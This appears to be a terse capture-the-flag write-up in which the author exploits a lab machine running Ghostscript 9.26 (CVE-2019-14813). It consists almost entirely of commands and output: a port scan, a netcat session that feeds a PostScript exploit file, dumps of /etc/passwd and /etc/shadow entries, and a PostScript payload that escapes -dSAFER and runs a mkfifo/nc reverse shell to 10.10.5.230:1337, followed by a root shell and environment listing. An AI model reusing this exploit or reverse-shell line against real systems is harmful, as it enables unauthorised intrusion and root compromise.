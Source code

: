 target : 10.0.200.13
plateform echored

└─# nmap -sV -Pn -p- --min-rate 5000 $ip

Nmap scan report for 10.0.200.13
Host is up (0.84s latency).
Not shown: 51389 closed tcp ports (reset), 14145 filtered tcp ports (no-response)
PORT      STATE SERVICE VERSION
12345/tcp open  netbus?

found GPL Ghostscript 9.26 (2018-11-20)

apt install ghostscript
The system is accessible at 10.0.200.13 and runs gs -sDEVICE=ppmraw -dSAFER on port 12345/tcp.

Flags can be found at:

    /root/ETSCTF
    /etc/passwd gecos
    /etc/shadow password hash
    env variable 

└─# nc 10.0.200.13 12345
GPL Ghostscript 9.26 (2018-11-20)
Copyright (C) 2018 Artifex Software, Inc.  All rights reserved.
This software comes with NO WARRANTY: see the file PUBLIC for details.
GS>

└─# echo -e "save pop\n" | nc 10.0.200.13 12345 < ghostrule3.ps > output.ppm
i modify the command on ghostrule3.ps
from id to whoami and it's work
GS>root
GS>[+] PS: I pwned you <3
GS>  
```
GS>root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/bin/false
ETSCTF:x:1000:65534:ETSCTF_badc5f1771ae494cccbc816be874aa20:/home/ETSCTF:/bin/bash
GS>[+] PS: I pwned you <3
```
```
backup:*:18149:0:99999:7:::
list:*:18149:0:99999:7:::
irc:*:18149:0:99999:7:::
gnats:*:18149:0:99999:7:::
nobody:*:18149:0:99999:7:::
_apt:*:18149:0:99999:7:::
ETSCTF:ETSCTF_7da5024dcdd3c31b0a88e40d57707d02:18211:0:99999:7:::
```

Now got an Reverse Shell
SAFER {
  (Could not escape from Safer Mode.) fail
} bind executeonly if
(Successfully escaped from Safer Mode!) success

(Executing a shell command...) info
(rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.5.230 1337 >/tmp/f) osexec print
(PS: I pwned you <3) success
quit

└─# nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.10.5.230] from (UNKNOWN) [10.0.200.13] 51674
# id
uid=0(root) gid=0(root) groups=0(root)
# whoami
root
# python3 -c 'import pty; pty.spawn("/bin/bash")'
root@CVE-2019-14813:/#

ETSCTF_644c0e73f15a2c4c65751c52c9f97ded

/usr/bin/env
ETSCTF_FLAG=ETSCTF_62ed37f53b310451fe7c1e206550f4c5
SOCAT_SOCKPORT=12345
HOSTNAME=CVE-2019-14813.echocity-f.com
SOCAT_PPID=8
SOCAT_PEERADDR=10.10.5.230
PWD=/sys
SOCAT_VERSION=1.7.3.1
HOME=/root
DEBIAN_FRONTEND=noninteractive
TERM=xterm
SOCAT_PID=2398
SHLVL=1
SOCAT_PEERPORT=57204
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
SOCAT_SOCKADDR=10.0.200.13
_=/usr/bin/env
OLDPWD=/
root@CVE-2019-14813:/sys#